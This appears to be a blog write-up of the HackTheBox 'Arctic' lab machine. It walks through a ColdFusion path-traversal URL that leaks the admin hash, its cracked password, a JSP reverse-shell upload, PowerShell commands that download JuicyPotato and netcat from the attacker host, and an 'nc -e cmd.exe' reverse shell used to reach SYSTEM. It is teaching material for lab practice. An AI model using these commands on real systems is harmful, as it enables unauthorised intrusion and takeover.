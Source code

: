 ```yaml
---
title: HackTheBox - Arctic
description: Arctic is an easy Windows machine that involves straightforward exploitation with some minor challenges. The process begins by troubleshooting the web server to identify the correct exploit. Initial access can be gained either through an unauthenticated file upload in Adobe `ColdFusion`. Once a shell is obtained, privilege escalation is achieved using the MS10-059 exploit. 
date: 2024-08-20 09:00:00 +0530
categories: [HackTheBox]
tags: [hackthebox, Easy, Windows]
image:
  path: /assets/img/headers/htb_arctic.webp
---
```


## Enumeration

Getting started by adding Machine IP to `/etc/hosts` as **arctic.htb**. 

### Nmap

Starting Basic nmap scan.

```console
$ sudo nmap -p- -T5 -Pn arctic.htb              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-11 13:25 IST
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 206.96 seconds

$ sudo nmap -p135,8500,49154 -sC -sV -O -T5 arctic.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-11 13:35 IST
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|Vista|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%), Microsoft Windows 7 or Windows Server 2008 R2 (88%), Microsoft Windows Server 2008 R2 (88%), Microsoft Windows Server 2008 R2 or Windows 8.1 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.47 seconds
```


### ColdFusion

I found a web application server on port 8500.  I had to be really patient to work with this app as the site is too slow.
+ http://arctic.htb:8500/


![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic.png)

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-1.png)

A quick google search gave a site which explained about all things about ColdFusion hacking.
+ https://nets.ec/Coldfusion_hacking

Here is the URL to spill the Hash.

[http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en](http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en)

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-2.png)

I found some hash. I could check if this hash is cracked in crackstation. and, it is already found cracked there.
+ `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`


### crackstation

| Hash                                     | Type | Result   |   |   |
|------------------------------------------|------|----------|---|---|
| 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 | sha1 | happyday |   |   |

I could login to the app now with creds as admin.

## Foothold

### JSP Reverse Shell

Home Page of ColdFusion after Logging in.

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-3.png)

If we search through the website, we can see a page where we could add tasks and trigger them. We could use JSP reverse shell, upload it here and use it.

As JSP reverse shells are available in Kali linux, I have hosted it using python's http server.

```console
$ cp /usr/share/webshells/jsp/jsp-reverse.jsp ~/transfer
$ python -m http.server
```

`C:\ColdFusion8\wwwroot\CFIDE` will be the root of the uploaded files. so I appended file name to the root text and added it to **File** value.

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-4.png)

**submit** and run the task.

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-6.png)

Uploaded shell can be found here:
+ `http://10.10.10.11:8500/CFIDE/jsp-reverse.jsp` 

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-5.png)
_viewing JSP page after upload and running task_


i have started a netcat listener and got a connect back.

```console
$ rlwrap nc -lnvp 4444         
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50785
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```


We are user `tolis` and we can read **user.txt** .
+ `C:\Users\tolis\Desktop\user.txt`

## Privilege Escalation

Checking `tolis` privileges. 

```console
C:\Users\tolis\Desktop>whoami /priv 
whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```


I used juicypotato to escalate. or use python exploit suggestor like here [posts/hackthebox-devel/#privilege-escalation](https://dineshkoravi.github.io/posts/hackthebox-devel/#privilege-escalation)

```console
$ powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.3:8000/JuicyPotato.exe', 'C:\Users\Public\Downloads\JuicyPotato.exe')" -bypass executionpolicy

$ powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.3:8000/nc.exe', 'C:\Users\Public\Downloads\nc.exe')" -bypass executionpolicy

$ echo C:\Users\Public\Downloads\nc.exe -e cmd.exe 10.10.16.3 9001 > priv.bat

$ JuicyPotato.exe -p C:\Users\Public\Downloads\priv1.bat -l 9001 -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}

# Get CLSIDs with scripts or from github.
# https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
# used BITS clsid
```

we have role of `nt authority\system` now.
```console
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
```
